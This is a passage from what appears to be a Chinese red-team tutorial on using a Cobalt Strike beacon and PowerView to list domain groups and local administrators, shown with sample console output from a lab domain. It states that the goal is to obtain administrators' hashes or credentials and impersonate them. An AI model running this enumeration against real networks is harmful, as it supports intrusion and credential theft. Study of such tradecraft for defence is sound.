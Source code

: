 beacon 的 net 模块也可以帮助我们，下面的命令中 `TARGET` 的意思是一个域控制器或者是任何想查看的组名，比如企业管理员、域管理员等等

```powershell
net group \\TARGET group name
```

也可以运行下面的命令，这会连接任意目标来获取列表

```powershell
net localgroup \\TARGET group name
```

#### 本地管理员

**Net 模块**

本地管理员可能是一个域账户，因此如果想把一个系统作为目标，应该找到谁是这个系统的本地管理员，因为如果获得了它的密码哈希值或者凭据就可以伪装成那个用户。

beacon 的 net 模块可以在系统上从一个没有特权的关联中查询本地组和用户。

在 beacon 控制台中运行下面命令可以获得一个目标上的群组列表

````powershell
net localgroup \\TARGET
````

如果想获取群组的列表，可运行下面的命令来获得一个群组成员的名单列表。

```powershell
net localgroup \\TARGET group name
```

```powershell
beacon> net localgroup \\WinDC administrators
[*] Tasked beacon to run net localgroup administrators on WinDC
[+] host called home, sent: 104510 bytes
[+] received output:
Members of administrators on \\WinDC:
TEAMSSIX\Administrator
TEAMSSIX\Daniel
TEAMSSIX\Enterprise Admins
TEAMSSIX\Domain Admins
```

**PowerView 模块**

PowerView 使用下面的命令能够在一个主机上找到本地管理员，这条命令实际上通过管理员群组找到同样的群组并且把成员名单返回出来。

```powershell
Get-Netlocalgroup -hostname TARGET
```

```powershell
beacon> powershell Get-Netlocalgroup -Hostname WinDC
[*] Tasked beacon to run: Get-Netlocalgroup -Hostname WinDC
[+] host called home, sent: 385 bytes
[+] received output:

ComputerName : WinDC
AccountName  : teamssix.com/Administrator
IsDomain     : True
IsGroup      : False
SID          : S-1-5-22-3301978333-983314215-684642015-500
Description  : 
Disabled     : 
LastLogin    : 2020/8/17 22:21:23
PwdLastSet   : 
PwdExpired   : 
UserFlags    : 

ComputerName : WinDC
AccountName  : teamssix.com/Daniel
……内容过多，余下部分省略……
```
